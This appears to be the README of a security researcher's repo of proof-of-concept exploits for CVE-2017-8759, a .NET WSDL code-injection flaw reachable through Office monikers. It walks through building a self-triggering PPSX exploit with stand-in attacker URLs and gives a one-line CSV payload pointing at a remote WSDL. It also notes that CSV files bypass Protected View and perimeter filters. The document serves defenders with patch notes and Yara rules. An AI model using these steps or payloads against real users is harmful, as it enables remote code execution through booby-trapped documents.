






# CVE-2017-8759

This repo contains sample exploits for CVE-2017-8759 for Microsoft PowerPoint, along with a description of how similar vulnerabilities were, and can, be exploited using the same techniques.

## Some background ##

The aim of publishing this repo is to highlight alternative exploitation techniques that defenders may currently be unaware of. By highlighting these alternative techniques, we hope to allow defenders to implement robust detection and avoid both false positives (in the case of wrongly identifying other moniker exploits as CVE-2017-0199), and false negatives (where only the RTF detections are focused on).

Back in April when I heard the news that a new un-patched vulnerability was being exploited in the wild, I looked to re-create the exploit so that detection rules could be created in advance of the vulnerability becoming public. However, at the time all I had to go on was the description of the vulnerability from the [FireEye](https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html) and [McAfee](https://securingtomorrow.mcafee.com/mcafee-labs/critical-office-zero-day-attacks-detected-wild/) blog posts. Due to the lack of public detail, this is what lead me to end up [exploiting the vulnerability](https://twitter.com/buffaloverflow/status/85185985461666201) using (what turned out to be) an entirely different method to that used by the "RTF URL Moniker" exploit seen in the wild.

Around a month later, Haifei Li highlighted the second vulnerability (aka the "PPSX Script Moniker") in his [SyScan360 talk](https://sites.google.com/site/zerodayresearch/Moniker_Magic_final.pdf), which he had identified and reported back in January 2017. This was also fixed under the same [CVE-2017-0199 patch](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0199), but was exploited (both by the author, and [later in the wild](http://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-0199-new-malware-abuses-powerpoint-slide-show/)) using the PPSX file format. At this point, I am still unaware of any in-the-wild attacks that used the URL moniker bug via PPSX - however due to both bugs being fixed under the same CVE, there was (and still is) some confusion around detection of these exploits (more on this later).

Fast-forward to September 2017 and [FireEye discovered](https://www.fireeye.com/blog/threat-research/2017/09/zero-day-used-to-distribute-finspy.html) yet another vulnerability that was using the RTF format in Microsoft Word. This prompted me to revisit my previous "PPSX URL Moniker" exploit to investigate whether the new "SOAP moniker" bug was also exploitable using the same PPSX technique.

## PPTX / PPSX Exploitation ##

As mentioned above, the previous vulnerability (CVE-2017-0199) was actually two separate vulnerabilities, which were patched by Microsoft under the same CVE number. The first (aka the "URL moniker" bug) was exploited using RTF, however the second one (aka the "script moniker" bug), actually used a entirely different technique and was exploited using the OOXML format, specifically PPSX. 

As also mentioned previously, the OOXML technique is not specific to the script moniker vulnerability and can be used to exploit the "URL moniker", "Script moniker" and the new "SOAP moniker" vulnerability.

Exploitation in OOXML is fairly straight forward and leverages a few tricks in order to get the vulnerable object to activate automatically. First I will cover the URL moniker exploit, and then explain how it could be updated to work with both the script and soap monikers (and potentially more in future).

### Embedding a Link ##

First a link to a file must be embedded (referred to as StdOleLink, or OLE2Link). I used a link to a PowerPoint file in my exploit - as shown below. This is needed later in order to activate the moniker.

## Modifying the Link ##

Once the link has been placed, the path needs to be modified to contain the moniker string. In the case of the "URL moniker" bug, this is as simple as adding a URL directly to an HTA file (i.e. "`http://attacker.com/evil.hta`". For the Script moniker version you can use the "`script:https://attacker.com/evil.sct`" string. The file-path to the linked object is stored within the following location:

    ppt\slides\_rels\slide1.xml.rels

Simply changing this to a moniker string is enough to trigger the vulnerability when the linked object is activated. However, this doesn't happen automatically unless you use another trick.

## Automatic activation ##

In order to automatically activate the object, you can use what is referred to as an "OLE Action Verb". Simply put, this is what causes PowerPoint to call the `IMoniker::BindToObject()` method, resulting in the eventual execution of your code (depending on the moniker, different paths are taken after this).

In order to use an OLE action verb, simply select the embedded object and go to:

    Animations -> Add Animation -> OLE Action Verbs -> Open

Once the OLE Action Verb animation is created, you can select "Start: with previous" in order to ensure the object is activated as soon as the slideshow is started.

### PPSX > PPTX ###

At this point, if you choose to save the document as PPTX and open it, you will be presented with a prompt to update links. This is undesirable from an exploitation scenario.

To get round this, you can simply save the file as a PPSX (PowerPoint slideshow) file instead. This will cause the slideshow to be automatically started on opening (and thus trigger the OLE Action Verb to execute your code). 

## Updating the exploit to CVE-2017-8759 ##

As described in the FireEye blog post, the vulnerability actually lies in the .NET framework rather than in Office itself. This is due to a code injection issue when parsing a [WSDL file containing multiple address definitions](logo.png). If a CRLF sequence is injected, it is possible to add arbitrary code to the generated c# file, which is later compiled into a DLL and loaded by the Office application.

The bug itself is present within the `IsValidUrl` method in the `WsdlParser` class of `System.Runtime.Remoting`. Before the CVE-2017-8759 patch, this method fails to check for CRLF characters and simply returns the unsanitized string (after making sure the string is properly quoted), which is then written out to a `.cs` file for compilation by `csc.exe`. This means that if an attacker passes a URL containing `\r\n`, they could inject arbitrary code into the generated C# file. The reason that the CRLF injection works is because usually, when a WSDL file is parsed containing multiple address definitions, the `PrintClientProxy` method will attempt to comment out the subsequent definitions as shown below.

**Unpatched IsValidUrl:**

**PrintClientProxy:**

The problem here is that `IsValidUrl` is still called on the secondary address URL before appending it to the commented line. If an attacker adds CRLF characters in a second address definition, when the code is parsed by `IsValidUrl`, they can break out of the commented line and inject their own C# code.

After the CVE-2017-8759 patch, the `WsdlParser` class now contains a new method named `TransliterateString`. Now when `IsValidUrl` is called, the code first checks whether the boolean `AppSettings.AllowUnsanitizedWSDLUrls`. If this is set to `true` then the code takes the same path as before the patch (allowing CRLF injection). However, if this is set to `false`, the new `TransliterateString` method is called. This new method simply encodes any non-alphabetic characters as escaped unicode, thus ensuring new line characters cannot be injected.

**Patched IsValidUrl:**

**TransliterateString:**

To demonstrate the patch, I created a simple test harness in C# and attempted to parse a string containing CRLF characters. The output of this is shown below. Notice that when the patched method is called *and* `AllowUnsanitizedWSDLUrls` is set to `false`, the string is now encoded.

When investigating how to exploit this vulnerability I [created a test harness](https://twitter.com/buffaloverflow/status/907728364278087680) in order to test code execution *outside* of Office. I used JScript along with the `GetObject` method for this, however you could use [soapsuds.exe](https://twitter.com/d_olex/status/907695614355369984). This was tested with the WSDL file from the malware sample to investigate how it worked and confirm the vulnerability.

Once I had the exploit working with GetObject, I simply modified the rels file as shown previously to include a soap moniker, in the form of "`soap:wsdl=http://attacker.com/evil.whatever`".

## Confusion with variants ##

After I created the exploit, I uploaded it to [Virus Total](https://www.virustotal.com/#/file/d59134394ad661565d70980c8978b1a237d4e04cff67e550e573862ef3255722/detection) (as I had done with previous samples) and had some surprising results. It turned out be detected by only one AV engine, and was falsely identified as CVE-2017-0199. Another sample I uploaded also appeared to be [tagged as CVE-2017-0199](https://twitter.com/ItsReallyNick/status/908072806713348103). This seems understandable due to the similarities it shared with the previous exploit(s), however there is some concern that this may lead to confusion, or in the worst case lead to newly discovered moniker exploits being missed due to being written-off as the an older, patched vulnerability.

## Testing the SOAP Moniker PPSX Exploit ##

First start up a web-server locally, in the same folder as the exploit files:

    python -m SimpleHTTPServer 80

Now open the `exploit.ppsx` file. If all goes well, you should see PowerPoint fetch both `logo.png` and `w00t.hta` from your local file-server, and `calc.exe` will be run.

## Example ##

## Bonus - CSV exploit ##

After posting about the PPSX exploit on Twitter, [Jacob Soo](https://twitter.com/_jsoo_) reached out to me and suggested that I try exploiting the vulnerability in Microsoft Excel. I gave it a try and sure enough, he was right - I was able to pop a calc.exe with a single prompt.

This is interesting, [as previously pointed out](https://posts.specterops.io/phishing-against-protected-view-enigma0x3-on-wordpress-com-eed399fca512) - CSV (and SLK files) do not trigger protected mode. This means that the number of prompts presented to a user when sent either an RTF, PPSX or CSV/SLK file from an internet location are exactly the same (due to the former triggering protected view). Furthermore, due to being plain-text and usually relatively innocuous, CSV files often sail through perimeter defenses (such as web-proxies or email spam filters).

### Triggering the vulnerability in Excel ###

Exploiting this bug in Excel is as simple as including a link to the WSDL file. Note that in the below example, we are using the ProgID "GC" (simply because it was the shortest one I could find), however this can be any valid ProgID in order to activate the moniker.

    =GC|'soap:wsdl=https://git.io/v5DMF '!''''

#### Demo: ####

Saving the above string as CSV is enough to exploit the vulnerability - short enough to Tweet! Further, due to it's shortness it is harder (though obviously not impossible) to create detection signatures, and thus I feel it is worthy of highlighting to defenders so that Excel based attacks can be identified going forward.

## Defense ##

### Patches ###

Microsoft [released a patch](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8759) for this vulnerability on 12/09/2017.

### Yara Rules ###

Some Yara rules for CVE-2017-8759 variants [have been published](https://github.com/Neo23x0/signature-base/blob/master/yara/exploit_cve_2017_8759.yar) by Florian Roth and Security Doggo.

I've also created:

- [CVE_2017_8759_CRLF.yara](yara/CVE_2017_8759_CRLF.yara), which should detect attempts to trigger the vulnerability with a WSDL file with an address location containing a CRLF sequence.
- [generic_OOXML_ppaction_ole.yara](yara/generic_OOXML_ppaction_ole.yara), which should detect OOXML documents containing a OLE Action verb of "Open" (i.e. verb=0).

## References / Credits ##

- CVE-2017-0199
	- https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.htm
	- https://securingtomorrow.mcafee.com/mcafee-labs/critical-office-zero-day-attacks-detected-wild/
	- https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-0199
	- http://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-0199-new-malware-abuses-powerpoint-slide-show/
-  Haifei Li and Bing Sun's SyScan360 "Moniker Magic" talk
	-  https://sites.google.com/site/zerodayresearch/Moniker_Magic_final.pdf
- Bypassing the CVE-2017-0199 patch (CVE-2017-8570) - aka "Composite Moniker"
	- https://justhaifei1.blogspot.no/2017/07/bypassing-microsofts-cve-2017-0199-patch.html
- Phishing against Protected View by Matt Nelson
	- https://posts.specterops.io/phishing-against-protected-view-enigma0x3-on-wordpress-com-eed399fca512
- Original FireEye post on CVE-2017-8759
	- https://www.fireeye.com/blog/threat-research/2017/09/zero-day-used-to-distribute-finspy.htm